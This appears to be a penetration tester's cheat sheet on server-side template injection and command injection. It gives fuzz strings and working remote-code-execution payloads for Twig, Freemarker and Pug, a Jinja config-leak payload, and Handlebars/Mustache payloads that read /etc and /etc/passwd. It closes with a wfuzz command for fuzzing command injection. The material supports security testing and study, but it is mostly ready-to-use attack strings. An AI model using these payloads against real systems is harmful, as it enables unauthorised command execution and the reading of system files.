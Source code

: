 ### SSTI
[Master List of SSTI Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

<b>Fuzzing

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

<b>Twig - feel free to use other php functions like exec instead of system
```
{{[0]|reduce('system','whoami')}}

```
<b>Freemarker 
```
${"freemarker.template.utility.Execute"?new()("whoami")}

```

<b>Pug 
```
- var require = global.process.mainModule.require
= require('child_process').spawnSync('whoami').stdou
```
or 
```
- var require = global.process.mainModule.require

= require('child_process').execSync('whoami')
```

<b>Jinja - No RCE Payloads discussed in the materials

`{{config|pprint}}` will return sensitive data relating to a jinja project  

<b>Mustache / Handlebars - does not natively support any sort of RCE 
Can iterate over filesystem with the following
```
{{#each (readdir "/etc")}}

	{{this}}

{{/each}}
```
Or read a single file via `{{read "/etc/passwd"}}`

### Command Injection
<b>Note: fuzz all params for this, every single time

Fuzzing
`wfuzz -c -z file,"/usr/share/payloadsallthethings/Command Injection/Intruder/command-execution-unix.txt" --sc 200 "$URL/index.php?parameter=idFUZZ"`
